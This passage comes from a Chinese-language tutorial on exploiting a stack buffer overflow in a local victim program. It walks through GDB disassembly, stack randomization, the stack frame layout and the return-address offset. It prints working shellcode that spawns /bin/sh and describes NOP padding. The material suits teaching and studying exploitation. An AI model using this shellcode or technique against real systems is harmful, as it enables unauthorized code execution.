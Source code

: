 ``` language-bash
# Debug victim program with GDB
   ┌─────────────────────────────────────────────────────────────────────────┐
   │0x401164 <foo>          push   %rbp                                      │
   │0x401165 <foo+1>        mov    %rsp,%rbp                                 │
   │0x401168 <foo+4>        sub    $0x50,%rsp                                │
   │0x40116c <foo+8>        mov    %rdi,-0x48(%rbp)                          │
   │0x401170 <foo+12>       mov    -0x48(%rbp),%rdx # 将argv[1]的地址赋给%rdx│
   │0x401174 <foo+16>       lea    -0x40(%rbp),%rax # 将buffer的地址赋给%rax │
  >│0x401178 <foo+20>       mov    %rdx,%rsi # 程序暂时停在这个位置          │
   │0x40117b <foo+23>       mov    %rax,%rdi                                 │
   │0x40117e <foo+26>       callq  0x400320 # strcpy函数调用                 │
   │0x401183 <foo+31>       leaveq                                           │
   │0x401184 <foo+32>       retq                                             │
   └─────────────────────────────────────────────────────────────────────────┘
child process 17315 In: foo                           Line: 6    PC: 0x401178
(gdb) p/x $rax
$1 = 0x7fffffffe3d0 # 根据0x401174这条指令，我们知道buffer地址存放在%rax寄存器中
(gdb)
```
　　由上，我们知道buffer的起始地址是`0x7fffffffe3d0`，理论上来说，这个应该就是注入代码的起始地址了。有的同学可能会怀疑这个地址只是一个随机数，下次执行时就不一样了。这样的想法非常合理，然而，如果再多测试几次，我们会惊讶地发现，这个值还真是固定的，并不是随机分配的。这是因为，GDB默认会关闭`stack randomization`，也就是说，在不受其他外界因素影响的前提下，调试程序每次开始执行时的栈顶地址都是固定的，从而buffer的地址也不会变。我们可以通过`show disable-randomization`来查看GDB是否已关闭`stack-randomization`，也可以通过`set disable-randomization on/off`修改这一选项：
``` language-bash
(gdb) show disable-randomization
Disabling randomization of debuggee's virtual address space is on.
(gdb) set disable-randomization off
(gdb) set disable-randomization on
(gdb)
```
　　好，现在我们有了恶意代码，也有了代码注入后的起始地址，接下来就是研究栈的结构，方便我们准确地修改到函数返回地址：
``` language-bash
# stack for foo function
                 +----------------+
                 |      ...       | # main function's frame
                 +----------------+
                 | return address | # 我们要修改的是这个位置
                 +----------------+
    %rbp   ----> |   saved %rbp   |
                 +----------------+
                 |  buffer[63:56] |
                 |  buffer[55:48] |
                 |  buffer[47:40] |
                 |  buffer[39:32] |
                 |  buffer[31:24] |
                 |  buffer[23:16] |
                 |  buffer[15:8]  |
                 |  buffer[7:0]   | # 地址为0x7fffffffe3d0
                 |      ...       |
    %rsp   ----> |      ...       |
                 +----------------+
```
　　我们输入的数据将会从`buffer[0]`开始，一直往上填充，直至将`return address`字段修改。我们的实验主机为64位系统，可以计算出，我们需要至少先输入`72`字节的数据，才能开始修改`return address`字段，而我们希望将返回地址修改为`0x7fffffffe3d0`，所以，我们总共需要输入`78`字节的数据。下面，我们来构造输入数据。
　　首先，毋庸置疑，我们需要将恶意代码作为输入数据的一部分，这里我把它放在输入数据的最前方：
``` language-bash
# 恶意代码总共50字节
\xeb\x24\x48\x31\xc0\x48\x89\x44\x24\x08\x48\x8b\x3c\x24\x88\x47\x07\x48\x8d\x34\x24\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x48\x31\xff\x0f\x05\xe8\xd7\xff\xff\xff/bin/sh
```
　　现在我们还22个字节才能达到`72`字节，而事实上，这22个字节的数据是不起作用的，因为程序执行完恶意代码后就会自动退出，所以这22个字节我们可以自己随便凑，但是注意别作死地选`\x00`、`\x20`这样的数，它们会终止代码的注入，这里我建议大家使用`\x90`，因为这在`x86`机器上是`NOP`指令的机器码，所以不管我们把`\x90`添加在什么位置(可以在恶意代码前，也可以在恶意代码中，只要不是一条指令中间--!)，都不会影响程序的正常执行。
　　通过添加`\x90`将数据填充到72字节后，我们就可以将地址`0x7fffffffe3d0`添加到输入数据的末尾：

  [1]: http://static.zybuluo.com/hac/ievx030z55g087jjjzdek5dy/Selection_093.png
  [2]: http://static.zybuluo.com/hac/o2ovzv62jrr95vlzrdxzug1x/Selection_094.png
  [3]: http://static.zybuluo.com/hac/73mrfpgsumtjebroggovldju/Selection_095.png